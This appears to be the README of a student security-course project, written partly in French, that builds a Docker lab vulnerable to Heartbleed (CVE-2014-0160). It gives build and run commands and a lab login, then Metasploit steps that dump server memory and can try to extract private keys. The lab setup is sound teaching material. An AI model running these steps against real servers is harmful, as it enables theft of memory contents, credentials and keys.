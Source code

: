 # Introduction à la sécurité des systèmes d'informations

## Equipe

* Guillaume MALLET
* Tom RUSSELLO
* Vincent TAVERNIER

## Faille choisie

CVE-2014-0160 : OpenSSL Heartbeat extension implementation, dite *Heartbleed*.

Versions vulnérables : OpenSSL 1.0.1 through 1.0.1f (inclusive) are vulnerable
(http://heartbleed.com/).

## Références

* http://heartbleed.com/
* https://xkcd.com/1354/

## Usage

```bash
# Build the image
sudo docker build -t cysec-heartbleed .

# Run a container from the built image
sudo docker run --name cysec-heartbleed -it cysec-heartbleed

# Find out the IP address of the container
docker network inspect bridge

# Go to the website with your browser
[browser] https://[IP_Container] (e.g. firefox https://172.17.0.2)

# Put the login
guest:guest123

# Installations des paquets nécessaires pour metasploit (exemple sous Debian)
sudo apt-get install git-core postgresql curl ruby-dev nmap gem
gem install wirble sqlite3 bundler
git clone https://github.com/rapid7/metasploit-framework.git
cd metasploit*
bundle install



# Run metasploit
./msfconsole
use auxiliary/scanner/ssl/openssl_heartbleed
set ACTION DUMP      # Just dump data. Use KEYS if you want to try dumping the keys
set RHOSTS 172.17.0.2 # IP address from the network inspect command
set RPORT 443        # Change if you use a different port in the container
run
```
